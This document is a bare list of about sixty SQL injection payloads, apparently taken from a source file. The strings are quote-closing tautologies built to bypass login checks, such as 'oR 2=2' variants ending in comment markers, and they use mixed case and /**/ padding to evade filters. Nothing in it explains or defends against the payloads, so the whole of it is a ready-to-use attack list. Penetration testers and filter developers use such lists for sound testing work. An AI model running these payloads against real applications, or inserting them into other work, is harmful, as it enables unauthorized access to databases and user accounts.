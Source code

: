 ```
")oR"2"#
")oR"2"/*
")oR"2"oR("
")oR(2)-- 2
")oR(2)#
")oR(2)/*
")oR(2)oR("
")oR 2-- 2
")oR 2#
")oR 2/*
")oR 2 oR("
")oR/**/2-- 2
")oR/**/2#
")oR/**/2/*
")oR/**/2/**/oR('
')oR'2'=('2
')oR'2'='2'oR('
')oR'2'='2'-- 2
')oR'2'='2'#
')oR'2'='2'/*
')oR 2=2-- 2
')oR 2=2#
')oR 2=2/*
')oR 2=2 oR('
')oR/**/2=2-- 2
')oR/**/2=2#
')oR/**/2=2/*
')oR/**/2=2/**/oR('
')oR(2)=2-- 2
')oR(2)=2#
')oR(2)=2/*
')oR(2)=(2)oR('
')oR'2'='2' LimIT 1-- 2
')oR'2'='2' LimIT 1#
')oR'2'='2' LimIT 1/*
')oR(2)=(2)LimIT(1)-- 2
')oR(2)=(2)LimIT(1)#
')oR(2)=(2)LimIT(1)/*
")oR"2"=("2
")oR"2"="2"oR("
")oR"2"="2"-- 2
")oR"2"="2"#
")oR"2"="2"/*
")oR 2=2-- 2
")oR 2=2#
")oR 2=2/*
")oR 2=2 oR("
")oR/**/2=2-- 2
")oR/**/2=2#
")oR/**/2=2/*
")oR/**/2=2/**/oR('
")oR(2)=2-- 2
")oR(2)=2#
")oR(2)=2/*
")oR(2)=(2)oR("
")oR"2"="2" LimIT 1-- 2
")oR"2"="2" LimIT 1#
")oR"2"="2" LimIT 1/*
")oR(2)=(2)LimIT(1)-- 2
")oR(2)=(2)LimIT(1)#
")oR(2)=(2)LimIT(1)/*
')oR true-- 2
')oR true#
```